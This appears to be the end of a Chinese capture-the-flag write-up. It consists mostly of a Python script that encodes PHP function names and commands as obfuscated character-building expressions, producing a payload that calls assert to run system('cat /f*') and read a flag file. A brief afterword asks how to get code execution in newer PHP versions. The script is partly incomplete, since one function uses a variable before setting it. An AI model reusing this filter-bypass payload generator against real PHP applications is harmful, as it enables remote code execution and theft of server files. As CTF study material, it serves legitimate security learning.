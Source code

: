 ```php
    global int_num
    want=str(ord(want))
    ret=''
    for i in want:
        ret+=int_num[i]+'.'

    return ret[:-1]
    
    
def shell(fun,code):#有参数函数
    ret=''
    sym=['(','^','.',')']
    global chr_str
    for i in fun:
        
            ret+=chr_str+'('+guess(i)+').'
            
    ret="("+ret[:-1]+')(('
    
    for x in code:
        
            ret+=chr_str+'('+guess(x)+').'
            

    ret=ret[:-1]+'))'
    return ret

def code(xx):#无差数函数

    for x in xx:
        
            ret+=chr_str+'('+guess(x)+').'
            

    ret=ret[:-1]+'))'
    return ret


if __name__ =='__main__':

    num=init()
    int_num=one_num(num)
    chr_str=guess_chr()
    x=(shell('assert','system("cat /f*")'))


    print(x)
    print(len(x))
```

## 后记

勉强完成出解题的脚本，但是一直在思考一个问题.在高版本php中,assert和eval是不可作为可变函数的,那么还有没有什么方法来进行代码执行.




